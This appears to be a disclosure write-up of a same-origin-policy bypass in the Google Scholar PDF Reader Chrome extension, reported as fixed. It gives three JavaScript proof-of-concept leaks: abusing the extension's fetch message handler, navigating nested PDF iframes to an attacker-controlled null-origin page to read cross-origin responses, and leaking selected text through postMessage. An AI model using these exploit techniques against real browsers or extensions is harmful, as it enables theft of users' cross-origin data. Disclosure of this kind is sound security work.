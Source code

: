 ```yaml
---
title: SOP bypass in Google Scholar PDF Reader (Fixed)
---
```


Google Scholar PDF Reader is apparently not an official Google app so was not awarded :(  
Chrome Webstore: <https://chromewebstore.google.com/detail/google-scholar-pdf-reader/dahenjhkoodjbpjheillcadbppiidmhp>

# Leak 1 (With compromised renderer)

```js
// In the context of a content script on any website.
// Leaked data must be JSON.

let x = chrome.runtime.connect();
x.postMessage({
  type: 'fetch',
  method: 'GET',
  url: 'https://www.google.com/something.json',
  id: 1
});
x.onMessage.addListener(console.log);
```

# Leak 2 (Without compromised renderer)

```js
// Embed victim PDF from attacker page.
let f = document.createElement('iframe');
f.width = 1000;
f.height = 1000;
f.src =
  'https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf';
document.body.appendChild(f);

// Navigate nested, nested frame to attacker controlled page with null origin.
// I think this also creates a race condition version
f.contentWindow[0][0].location =
  'https://terjanq.me/xss.php?h[Content-Security-Policy]=sandbox%20allow-scripts';

// On that attacker page, Make sure the target page to leak is the same-origin as the pdf https://services.google.com in this case.
onmessage = async (e) => {
  let reader = e.data.body.pipeThrough(new TextDecoderStream()).getReader();
  let result = await reader.read();
  console.log(result.value);
};
parent.parent.postMessage(
  {type: 'fetch', url: 'https://services.google.com/example'},
  '*'
);
```

# Leak 3 (Without compromised renderer)

```js
let f = document.createElement('iframe');
f.width = 1000;
f.height = 1000;
f.src =
  'https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf';
document.body.appendChild(f);
```

Selected text gets leaked cross-origin.

```js
onmessage = console.log;
f.contentWindow[0].postMessage({type: 'getSelectedText'}, '*');
```

# Attack scenario

An attacker controlled website can bypass SOP if one of the following is met:

- Attacker wants JSON data and has a compromised renderer bug
- Attacker wants data from a origin that contains a PDF which allows embedding
